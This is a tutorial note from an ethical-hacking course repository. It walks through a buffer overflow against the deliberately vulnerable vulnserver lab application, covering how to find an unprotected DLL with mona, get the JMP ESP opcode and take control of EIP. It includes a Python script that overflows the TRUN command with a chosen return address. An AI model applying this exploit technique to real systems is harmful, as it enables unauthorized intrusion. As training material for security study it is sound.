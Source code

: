 # Finding the Right Module

We are looking for a dll inside the program, that has no memory protections: no DEP, no ASLR, no safeSEH

Can use Mona Modules tool together with ImmunityDebugger

Download mona.py and place in:
```
C:\Program Files (x86)\Immunity Inc\Immunity Debugger\PyCommands
```

In Immunity Debugger where our program has paused, run at the bottom cmd line, `!mona modules`

We can check which protection settings are off and on

Check what is attached to vulnserver itself and has all False

![](https://github.com/Cyberd0xed/practical-ethical-hacking/blob/main/resources/f4ade174ab3d428e97f16a8f06d1092f.png?raw=true)
 
**essfunc.dll** seems ideal as the protection settings for Rebase, SafeSEH, ASLR, NXCompat, OS Dll are all False and it is attached to the vulnserver process (`\vulnserver\essfunc.dll`)

Find the operation (OP) code equivalents of a jump to a specific address: i.e. trying to convert assembly language to shellcode

How to do this: go on Linux, and `locate nasm_shell`

Run
```
/usr/share/metasploit-framework/tools/exploit/nasm_shell.rb
```
On `nasm>` type the assembly code `JMP ESP`. We get:
```
nasm > JMP ESP
00000000  FFE4              jmp esp
```
will use this as a pointer for our program to look at the pointer and jump to the shell code 

Hexcode equivalent of "JMP ESP" is "FFE4"

Go back to ImmunityDebugger and type:
```
!mona find -s "\xff\xe4" -m eesfunc.dll
```
(`.ff..e4`)
In the results, we see a couple of return addresses

![](https://github.com/Cyberd0xed/practical-ethical-hacking/blob/main/resources/527a2a8a950648e0a813ed38b3703070.png?raw=true)

Note down some of these. For now, first result: `0x625011af`

We will use this in our shell code. This time, our Windows has x86 architecture so we need to use little-endian format as it stores the lower order byte to the lowest address and the high order byte at the higher address.
We will write the address as `\xaf\x11\x50\x62`

We want our EIP to be jump code that jumps to our malicious reverse shell code:
```
#!/usr/bin/python
import sys, socket

# The "vulnerable" return address we found was 625011af
shellcode = "A" * 2003 + "\xaf\x11\x50\x62"

while True:
	try:
		s=socket.socket(socket.AF_INET, socket.SOCK_STREAM)
		s.connect(('10.0.2.15',9999))
		s.send(('TRUN /.:/' + shellcode ))
		s.close()
	except:
		print "Error connecting to server"
		sys.exit()
```

This should hit the same error as before but hit a Jump point 

Go back to ImmunityDebugger and try and catch the exception
Back to "C" windows of ID, click blue/black arrow pointing to the right three dots and enter our address `Enter expression to follow 625011af`

![](https://github.com/Cyberd0xed/practical-ethical-hacking/blob/main/resources/11bcc55c6f2a4d1993abc116800e94c5.png?raw=true)

There, we see the FFE4 JMP ESP code we were looking for. Hit F2 to set breakpoint. Then, when we run the program, it will pause there instead of moving further. 
Can now run program and then run our 5.py
The program pauses at our breakpoint and we see `EIP 625011AF essfunc.625011AF`

We now control the EIP. Now need to write/generate some shellcode, point directly to that shellcode and get root


